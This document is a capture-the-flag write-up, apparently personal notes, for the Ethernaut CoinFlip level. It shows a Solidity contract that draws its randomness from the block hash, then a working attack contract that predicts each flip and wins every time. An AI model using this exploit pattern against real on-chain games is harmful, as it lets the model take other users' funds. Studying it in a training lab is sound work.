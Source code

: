 ### Ethernaut coinflip

Take a gander at this contract

You'll notice that it attempts to make a game where the user has a 50% chance of guessing the right answer.

Our goal is to get 10 consecutive wins.

Can you spot anything sketchy about this contract? 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```


If you take a look at the flip function, you'll notice that the answer is computed using a bad source of randomness. Anyone can see the value of FACTOR, and anyone can computer the value of blockValue.

We can write a contract that can compute what the answer would be, and then submit it to the coinflip contract to get wins every time. 

Here's a contract that can be used to win this coinflip game.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.1/contracts/math/SafeMath.sol";

interface ICoinFlip {
    function flip(bool _guess) external;
    function consecutiveWins() view external returns (uint256);
}

contract Attack {
    using SafeMath for uint256;
	
    address coinFlipAddress = 0x53eeD803C0ec5b969dc401CE8abfa9D67f341058;

    ICoinFlip coinFlipContract = ICoinFlip(coinFlipAddress);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function predictFuture() public returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinFlipContract.flip(side);
    }

    function getConsecutiveWins() public view returns (uint256) {
        return coinFlipContract.consecutiveWins();
    }
}
```

In the function titles predictFuture, we get the value of the coinflip the same way the original contract does it. 

Deploy this attack contract, call predictFuture 10x and you'll have solved this level

%%TODO:  upload the photo to imgur  %%
![[Pasted image 20220415142517.png]]